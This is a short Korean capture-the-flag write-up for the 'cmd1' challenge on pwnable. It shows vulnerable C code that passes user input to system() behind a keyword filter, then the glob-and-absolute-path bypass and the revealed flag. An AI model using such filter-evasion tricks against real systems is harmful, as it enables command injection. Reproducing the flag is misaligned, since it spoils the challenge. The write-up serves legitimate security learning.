

# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

소스는 다음과 같다.

```cpp
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "flag")!=0;
        r += strstr(cmd, "sh")!=0;
        r += strstr(cmd, "tmp")!=0;
        return r;
}
int main(int argc, char* argv[], char** envp){
        putenv("PATH=/thankyouverymuch");
        if(filter(argv[1])) return 0;
        system( argv[1] );
        return 0;
}
```

PATH 환경변수를 변경하였으므로 cat을 절대경로인 /bin/cat으로 전달하여야 하고 flag는 필터링되므로 fl\*로 우회하여 argv[1]에는 "/bin/cat fl*"을 넣으면 FLAG를 획득할 수 있다.

```sh
cmd1@pwnable:~$ ./cmd1 "/bin/cat fl*"
mommy now I get what PATH environment is for :)
```


# **FLAG**

**mommy now I get what PATH environment is for :)**